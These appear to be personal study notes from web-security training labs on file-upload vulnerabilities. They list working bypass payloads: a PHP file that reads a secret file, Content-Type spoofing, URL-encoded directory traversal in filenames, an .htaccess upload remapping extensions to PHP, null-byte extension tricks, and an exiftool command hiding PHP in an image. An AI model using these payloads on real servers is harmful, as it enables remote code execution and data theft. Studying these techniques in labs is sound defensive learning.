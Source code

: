 ## basic 

- upload avatar image -> enable image under *filter by MIME type* in burp 
	-  image was fetched using  `GET` request to `/files/avatars/<YOUR-IMAGE>`
- exploit.php:
```php
<?php echo file_get_contents('/home/carlos/secret'); ?>
```
=> `GET /files/avatars/exploit.php HTTP/1.1`
# Exploiting flawed validation 

## Flawed file type validation

- -> response indicates you are only allowed with `image/jpeg` or `image/png` 
- find the post request to `/my-account/avatar` 
- change the `Content-Type` to `image/jpeg`
## Preventing file execution in user-accessible directories

- change the `filename` to include a [[OLD/WEB/vulnerabilities/Path Traversal/concepts|directory traversal]] sequence:
    - `Content-Disposition: form-data; name="avatar"; filename="../exploit.php"`
    	- response: `The file avatars/exploit.php has been uploaded.` -> failed
    - Obfuscate the sequence -> `filename="..%2fexploit.php"`
    	- response: `The file avatars/../exploit.php has been uploaded.` -> success
- `GET /files/avatars/..%2fexploit.php` or `GET /files/exploit.php`
## Insufficient blacklisting

### Overriding the server configuration

apache: 
`LoadModule php_module /usr/lib/apache2/modules/libphp.so AddType application/x-httpd-php .php`

IIS:
`<staticContent> <mimeMap fileExtension=".json" mimeType="application/json" /> </staticContent>`
##### senario
-  in `POST /my-account/avatar` 
	- value of  `filename` ->  `.htaccess`
	- `Content-Type` header -> `text/plain`
	- content of the file -> `AddType application/x-httpd-php .l33t` =>  maps .l33t extension to PHP MIME.
- again in  in `POST /my-account/avatar
	- `filename` -> from `exploit.php` to `exploit.l33`
- `GET /files/avatars/exploit.l33t`
### Obfuscating file extensions

-  in `POST /my-account/avatar` 
	-  `filename="exploit.php%00.jpg"`
		- `exploit.php` in http response -> null byte stripped
- `GET /files/avatars/exploit.php`
## Flawed validation of the file's contents

```shell
exiftool -Comment="<?php echo 'START ' . file_get_contents('/home/carlos/secret') . ' END'; ?>" <YOUR-INPUT-IMAGE>.jpg -o polyglot.php
```
- adds the PHP payload to the image's `Comment`
- saves the image with a `.php` extension
- `GET /files/avatars/polyglot.php` => `START [secret text] END`